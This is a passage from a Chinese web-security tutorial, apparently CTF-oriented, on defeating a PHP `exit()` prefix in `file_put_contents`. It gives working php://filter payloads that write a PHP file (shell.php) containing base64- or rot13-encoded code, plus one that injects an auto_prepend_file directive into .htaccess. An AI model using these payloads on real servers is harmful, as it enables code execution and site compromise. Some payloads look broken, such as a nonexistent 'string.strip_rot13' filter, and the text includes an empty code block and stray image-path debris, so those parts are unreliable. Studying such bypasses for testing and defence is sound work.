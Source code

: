 ```php
```

这个时候用到的过滤器是`convert.iconv.UCS-4LE.UCS-4BE` ,

原理是一样的，就不细写了。

#### 四.过滤器嵌套

用了一个过滤器`string.strip_tags`

> `string.strip_tags`可以过滤掉html标签和php标签里的内容

所以这个过滤思路就是首先让他把\<?php exit();?>去除掉，然后再来base64进行解码，所以这个就要求我们先补充一个?>,并且要先把\<?php exit();?>先去掉，而且后面我们的语句不能先解码。

```url
filename=php://filter/string.strip_tags|convert.base64-decode/resource=shell.php&content=?>PD9waHAgcGhwaW5mbygpOz8+
```

{% hint style="danger" %}
这个在php7.3以上不能用
{% endhint %}



#### 五. `.htaccess`的预包含利用

这里先给大家看姿势再解释吧

```url
filename=php://filter/write=string.strip_tags/resource=.htaccess&
content=?>php_value auto_prepend_file D:\\phpstudy_pro\\www\\flag.php
```

这里还是用的string.strip\_tags去去除前面的exit，然后把后面的代码写入到.htaccess文件（apache配置文件）里面。后面的代码是一个配置，PHP 配置 `auto_prepend_file`，使得在执行所有 PHP 脚本之前，会先执行 `D:\\phpstudy_pro\\www\\flag.php` 这个文件。



#### <mark style="color:orange;">②</mark><mark style="color:orange;">`file_put_contents($content,"<?php exit();".$content);`</mark>

这种情况下文件名和文件内容一致，但是我们需要前面的文件时php结尾，所以我们需要添加.php，并且需要利用filter这个还是一样的。所以我们写出来的姿势就变成了。

具体解释可以看，讲得很透彻了。

{% embed url="https://www.freebuf.com/articles/web/266565.html" %}

一.base64编码

```url
content=php://filter/string.strip_rot13|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8+/../shell.php
```



#### 二.rot13编码

```url
content=php://filter/string.strip_rot13|<?cuc cucvasb();?>|/resource=shell.php
```

